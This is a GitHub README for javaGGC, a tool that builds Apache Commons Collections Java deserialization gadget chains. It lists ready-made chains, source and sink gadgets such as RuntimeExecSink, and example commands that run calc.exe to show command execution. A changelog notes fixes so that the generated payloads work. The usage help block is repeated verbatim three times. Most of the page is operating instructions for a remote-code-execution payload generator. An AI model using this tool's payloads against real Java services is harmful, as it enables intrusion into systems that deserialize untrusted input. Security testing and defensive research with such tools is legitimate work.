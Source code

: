 # javaGGC
***javaGGC for generate commons.collections gadget chain***

## Usage
### javaGGC 0
Use available ggc now!

CCHx is commons collections 4.x ggc relative to CCx.
```
Usage: javaGGC version=(3/4) [source=SOURCE_INDEX] [sink=SINK_INDEX] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)] 
       |
       javaGGC 0 [ggc=CC_INDEX/CC_NAME] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)]

Usage: javaGGC version=(3/4) [source=SOURCE_INDEX] [sink=SINK_INDEX] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)] 
       |
       javaGGC 0 [ggc=CC_INDEX/CC_NAME] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)]

Available GGC:
  [0] CC1 (command)
  [1] CC10 (command)
  [2] CC11 (code)
  [3] CC12 (code)
  [4] CC2 (code)
  [5] CC3 (code)
  [6] CC4 (code)
  [7] CC5 (command)
  [8] CC6 (command)
  [9] CC7 (command)
  [10] CC8 (code)
  [11] CCH1 (command)
  [12] CCH10 (command)
  [13] CCH11 (code)
  [14] CCH12 (code)
  [15] CCH3 (code)
  [16] CCH5 (command)
  [17] CCH6 (command)
  [18] CCH7 (command)
  [19] CCH8 (code)
  [20] CCK1 (code)
  [21] CCK2 (code)
  [22] CCK3 (command)
  [23] CCK4 (command)
```
usage: `javaGGC 0 CC1 calc.exe`
### javaGGC 3/4
Assemble these gadgets into a new ggc chain!
#### javaGGC 3
```
Usage: javaGGC version=(3/4) [source=SOURCE_INDEX] [sink=SINK_INDEX] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)] 
       |
       javaGGC 0 [ggc=CC_INDEX/CC_NAME] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)]

Available Source:
  [0] AnnotationInvocationHandlerSource (jdk<8u71)
  [1] BadAttributeValueExpExceptionSource
  [2] HashMapSource
  [3] HashSetSource
  [4] HashtableSource
Available Sink:
  [0] RuntimeExecSink (command)
  [1] ScriptEngineManagerSink (code)
  [2] TemplatesImplNewTransformerSink (code)
  [3] TemplatesImplTrAXFilterSink (code)
```
usage: `javaGGC 3 0 0 calc.exe`

#### javaGGC 4
```
Usage: javaGGC version=(3/4) [source=SOURCE_INDEX] [sink=SINK_INDEX] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)] 
       |
       javaGGC 0 [ggc=CC_INDEX/CC_NAME] [arg=(command/code, 1 means default, startswith file:// means read code from file)] [test_on_local=(anyValue means yes)]

Available Source:
  [0] AnnotationInvocationHandlerSource (jdk<8u71)
  [1] BadAttributeValueExpExceptionSource
  [2] HashMapSource
  [3] HashSetSource
  [4] HashtableSource
  [5] PriorityQueueSource
  [6] TreeBagSource
Available Sink:
  [0] RuntimeExecSink (command)
  [1] ScriptEngineManagerSink (code)
  [2] TemplatesImplNewTransformerSink (code)
  [3] TemplatesImplTrAXFilterSink (code)
```
usage: `javaGGC 4 0 0 calc.exe`

## Update
### V0.0.6
- when the parameter is wrong, output the correct help information and exit
- refactor
### V0.0.5
- add sinkResultID for ScriptEngineManagerSink
- fix GGH1, GGH3
- fix a problem: **The payload generated by the repair cannot be used**

### V0.0.4
- add AnnotationInvocationHandlerSource for commons collections 4
- add CCH1, CCH3
### V0.0.3
- add TreeBagSource for commons collections 4

## Reference
[CCK Reference](https://github.com/shadowsock5/ysoserial/commit/cb0a3fa7aa8de4563fd4e1c57d45e6cd1ffea971)